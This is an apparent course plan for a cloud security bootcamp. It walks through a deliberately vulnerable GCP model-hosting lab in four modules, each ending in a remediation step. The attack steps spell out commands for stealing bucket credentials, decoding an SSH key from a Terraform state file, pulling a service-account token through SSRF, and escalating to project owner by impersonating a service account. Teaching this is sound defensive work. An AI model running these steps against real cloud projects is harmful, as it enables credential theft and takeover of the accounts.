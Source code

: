 # AI Security Bootcamp Implementation Plan

Context: "CloudAI Labs" - A model hosting platform (like Hugging Face) with security flaws

## Implementation Details

### Code Structure
- Use terraform files for deployment
- Add simple Flask ML API

### Student Experience
- ~30 minutes per module
- Story → Attack → Fix
- Visual diagrams provided

### Simplifications
- Pre-configured gcloud
- Focus: Storage, Functions, IAM

# Modules

## Module 1: Enumeration and Discovery
**Attack**:
- Predictable bucket names: modeldata-{dev,prod}
  - Student given 'modeldata-dev' bucket to start
- Dev bucket has a 'bucket-service-account'.json
- The 'bucket-service-account' has access to 'modeldata-prod' bucket
- Hints:
  - Hint1: "what's in the bucket? any creds?"
  - Hint2: "what can those creds access? (insert use-creds-command here)
  - Hint3: "what if there was another bucket for prod?"

**Remediation**:
- Go to Cloud Storage → Select "cloudai-dev" bucket
  - Delete the service account json from the bucket
- Go to IAM, Create new Service Account 'dev-bucket-sa'
  - Student selects tf-preconfigured 'Dev Bucket Access' role

**Engagement**: "CloudAI's 'secret' GPT-6 benchmarks leaked. No insider needed - how?"


## Module 2: Environment Secrets & State Exposure
**Attack** (Adapt Module 2):
- `gsutil ls` newly discovered 'modeldata-prod' bucket
  - Discover + download Terraform Statefile
- Examine file, notice 'alice' user, and 'nat' IP
  - Also notice "SSH key" secret visible in encoded form
- Decode SSH Key, dump to local file
  - Use it to `ssh alice@nat-ip` to access deployed VM

**Remediation**:
Prevent decodable SSH Key
- Open GCP Console → Security → Secret Manager
- Click "Create Secret", name: "ssh-key"
- Paste the exposed SSH key, click "Create"

**Engagement**: "Your startup's LLM architecture leaked. Trace the breach through exposed deployment files."

## Module 3: Instance Metadata Service Exploitation  
**Attack** (Use Module 3):
- SSH into VM from Module 2: `ssh -i ~/.ssh/alice-key alice@<NAT-IP>`
- Check current service account: `gcloud auth list`
  - Notice default compute service account with full project access
- Discover cloud function bucket: `gsutil ls`
  - Find 'cloud-function-bucket-module3' in output
- Read function source: `gsutil cat gs://cloud-function-bucket-module3/main.py`
  - Notice SSRF vulnerability in monitoring endpoint
- Run pre-installed script: `./invoke_monitoring_function.sh`
  - Script shows function URL format
- Extract service account token via SSRF:
  ```
  curl -X POST https://$LOCATION-$PROJECT_ID.cloudfunctions.net/monitoring-function \
    -H "Authorization: bearer $(gcloud auth print-identity-token)" \
    -H "Content-Type: application/json" \
    -d '{"metadata": "token"}'
  ```
- Hints:
  - Hint1: "Check what service account the VM is using"
  - Hint2: "Look for cloud functions in storage buckets"
  - Hint3: "The monitoring function fetches URLs - what about metadata.google.internal?"

**Remediation**:
- Go to IAM & Admin → Service Accounts → Create
- Name: "model-api-vm", description: "Minimal VM account"
- Skip permissions for now → Create
- Compute Engine → VM instances → Click instance
- Edit → Service account → Select "model-api-vm"
- Save → Test: SSRF gets limited token

**Engagement**: "Inference costs exploded overnight. The model API is accessing internal resources."

## Module 4: Service Account Misconfigurations [Extension]
**Attack** (Use Challenge 5):
- Use token from Module 3: `export CLOUDSDK_AUTH_ACCESS_TOKEN=<function-token>`
- Check project permissions: `gcloud projects get-iam-policy $PROJECT_ID`
  - Notice monitoring-function@ has custom role
- List all service accounts: `gcloud iam service-accounts list`
  - Find terraform-pipeline@ with admin privileges
- Examine custom role: `gcloud iam roles describe TerraformPipelineProjectAdmin --project $PROJECT_ID`
  - Has owner-like permissions including setIamPolicy
- Check terraform SA bindings: `gcloud iam service-accounts get-iam-policy terraform-pipeline@$PROJECT_ID.iam.gserviceaccount.com`
  - monitoring-function@ has Token Creator role!
- Impersonate to escalate privileges:
  ```
  gcloud projects add-iam-policy-binding $PROJECT_ID \
    --member=user:<your-email> --role=roles/owner \
    --impersonate-service-account terraform-pipeline@$PROJECT_ID.iam.gserviceaccount.com
  ```
- Verify escalation: `gcloud projects get-iam-policy $PROJECT_ID | grep -A2 <your-email>`
- Hints:
  - Hint1: "What other service accounts exist in the project?"
  - Hint2: "Check IAM bindings on the terraform service account"
  - Hint3: "Service Account Token Creator allows impersonation"

**Remediation**:
- Navigate to IAM & Admin → Service Accounts
- Find "monitoring-function@" account → Click name
- Go to "Permissions" tab → View all permissions
- Find "terraform-pipeline@" in the list
- Click pencil icon next to "Service Account Token Creator"
- Select "Remove" → Confirm removal
- Test: `gcloud iam service-accounts get-iam-policy terraform-pipeline@...`
  - Verify monitoring-function@ no longer listed

**Engagement**: "Ex-employee claims they deleted all models using just an API token. Investigate."


